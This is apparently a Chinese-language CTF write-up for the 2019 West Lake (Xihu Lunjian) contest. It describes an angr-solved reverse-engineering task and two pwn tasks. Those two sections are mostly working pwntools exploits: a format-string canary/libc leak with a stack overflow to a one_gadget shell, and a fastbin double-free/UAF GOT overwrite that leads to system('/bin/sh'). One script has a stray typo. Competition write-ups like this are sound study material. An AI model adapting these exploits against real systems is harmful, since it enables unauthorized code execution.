 ```yaml
---
title: 2019西湖论剑CTF
date: 2018-4-24 07:49:52
tags: [CTF, WP]
categories: CTF
---
```

由于最近忙的多西很多，导致2019西湖论剑CTF忘记报名了，只能用队友的账号上去做了一下，赛题体验良好，题目还是很中规中矩的，虽然依旧是被吊锤(脸红)。  
比赛是从上午九点打到晚上九点，时间可以说是很短了，这边由于做pwn调试的时候花费了大量的时间和精力，导致最后没有耐心去看其它题目了(菜！！！)，贴一下做出来的题目。  

## RE2 easyCpp  
拿到题目后直接拖ida看逻辑，发现都是CPP冗长的符号。。。。头疼，分析是不可能分析的，这辈子都不可能。。。。  
大概看了些逻辑，顺手就拖进了angr，跑了5min，出来了。。。。。  

![image](RE2.png)  

等官方WP出来以后再来复盘一波  

## PWN2 story  
checksec一下发现有canary和nx，ida载入发现格式化字符串  

![image](./格式化字符串.png)  

由于这边的格式化字符串只能利用一次，而且libc地址还不知道，所以这边肯定不是ssp、stack_check_fail劫持之类的。  

![image](./溢出.png)  

这边发现程序存在溢出，猜测是利用格式化字符串泄露canary，之后溢出，构造rop或者ret2libc来getshell。  

贴下脚本:  
```
from pwn import *
p=process('./story')
p=remote('ctf2.linkedbyx.com',10655)
##gdb.attach(p,'''
#    break *0x0000000000400A53
#    break *0x0000000000400A1C
#    continue
#''')
libc=ELF('./libc6_2.23-0ubuntu10_amd64.so')
p.recvuntil('Please Tell Your ID:')
p.sendline('%25$lx%15$lx')x`
p.recvuntil('Hello ')
#print p.recvline()
libc_main=int(p.recv(12),16)-240
libc_base=libc_main-libc.symbols['__libc_start_main']
bin_sh=libc.search('/bin/sh').next()+libc_base
system=libc.symbols['system']+libc_base
#print hex(libc_system)
canary=int(p.recvline(),16)
#print canary
p.recvuntil('Tell me the size of your story:')
p.sendline('129')
p.recvuntil('You can speak your story:')
payload='a'*136+p64(canary)+'a'*8+p64(0xf1147+libc_base)+100*p64(0x0)
p.sendline(payload)
p.interactive()
```

这边rop用的是one_gadget，注意需要满足[rsp+0x??]为空的条件，这里可以利用大范围高字节溢出，把rbp-4之后的地址全部淹没为空。  

![image](./getshell.png)  

## PWN3 noinfoLeak  
看保护发现只有pie没有开，不用猜都知道肯定是堆题。程序本来的符号表是被裁掉的，这边通过分析程序功能补全了一下。  

![image](./符号.png)  

程序主要有三个功能，malloc、free、input，分配的堆块的大小和地址存储在bss上的list中。通过静态分析可以发现free没有对chunk进行检查，所以这边有个doublefree，input_list函数同样没有对chunk是否已经free进行检查，导致这边又有个uaf。  
看到这边单纯的我想到的思路就是通过uaf改写free chunk的fd指向，通过fastbinAttack改写全局list内容，然后利用程序本身的input_list功能进行got覆写，最后one_gadget一把梭结束战斗。  
然鹅，我还是低估了出题人的险恶用心(拍桌！！！)，因为，这题，居然没法直接泄露。。。 
话说回来，万变不离其宗，此题也只是无法直接泄露，都能任意地址写了，还怕没法泄露地址的咩~改个got表就吼了~。  
贴下脚本:
```
from pwn import *
context.log_level = "debug"
p = process("./noinfoleak")
#p = remote("ctf1.linkedbyx.com" , 10216)
elf = ELF("./noinfoleak")
libc = elf.libc

sla = lambda c : p.sendlineafter(">" , str(c))
sa = lambda c : p.sendafter(">" , str(c))

def add(size , content):
	sla(1)
	sla(size)
	sa(content)

def delete(idx):
	sla(2)
	sla(idx)

def edit(idx , content):
	sla(3)
	sla(idx)
	sa(content)

# fastbin attack to control note_list 
stdin = 0x601090
add(0x60 , "padding")
add(0x60 , "padding")
add(0x60 , "padding")
add(0x60 , "/bin/sh\x00")

delete(0)
gdb.attach(p)
edit(0 , p64(stdin + 5 - 0x8))
add(0x60 , "padding") # clear
payload = "a" * 3 + p64(elf.got["free"]) + p64(0x8) + p64(elf.got["read"])  + p64(0x8)
add(0x60 , payload)
edit(0 , p64(elf.plt["puts"] ))
delete(1)
read_addr = u64(p.recvuntil("\x7f").ljust(8 , "\x00"))
libc.address = read_addr - libc.sym["read"]
log.info("libc : " + hex(libc.address))
edit(0 , p64(libc.sym["system"]))
delete(3)
# gdb.attach(p)
# leak libc 
# modify free to system for getshell
p.interactive()
```

![image](./pwn3_get_shell.png)  

## 总结  
打一天时间还是太短了，有些题目来不及刚都，等着官方WP出了去复盘一波。  









